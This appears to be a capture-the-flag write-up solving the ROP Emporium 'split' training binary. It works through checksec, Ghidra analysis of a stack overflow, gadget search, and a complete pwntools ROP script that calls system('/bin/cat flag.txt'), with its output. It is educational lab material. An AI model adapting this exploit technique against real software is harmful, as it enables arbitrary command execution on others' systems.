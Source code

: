 # Split

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ checksec split
[*] '/home/vein/rop_emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./split     
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack

## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```
```c

void usefulFunction(void)

{
  system("/bin/ls");
  return;
}
```
We open Ghidra and we saw that a pwnme() function is called by the main.
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long
and the read() takes up to 96 = 0x60

# Exploitation
Challeneg description talks about a string that we maybe need to solve it.
We found it with rabin2 but we also can with Ghidra and with pwndbg.
It's the "/bin/cat flag.txt"
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ rabin2 -z split  
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

What we want to do is to navigate to usefulFunction() function and put inside the system()
the string "/bin/cat flag.txt" to take the flag.
To achieve this we want a rop gadget to pop it into the stack
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ropper -f split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;
```

So, now we are ready to craft our payload.
Here is the python script
```python3
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./split', checksec=False)
p = process()
context.log_level = 'info'

offset = b'a' * 40

pop_rdi = 0x4007c3      # pop rdi; ret;
bin_cat = 0x601060      # /bin/cat "flag.txt"
system_addr = 0x40074b  # and the system()

payload = offset
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system_addr)

p.sendlineafter(b'>', payload)
log.info(p.recvuntil(b'}')) # to receive only until the end of the flag
```
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./exploit.py                      
[+] Starting local process '/home/vein/rop_emporium/split/split': pid 8091
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/vein/rop_emporium/split/split' (pid 8091)
```
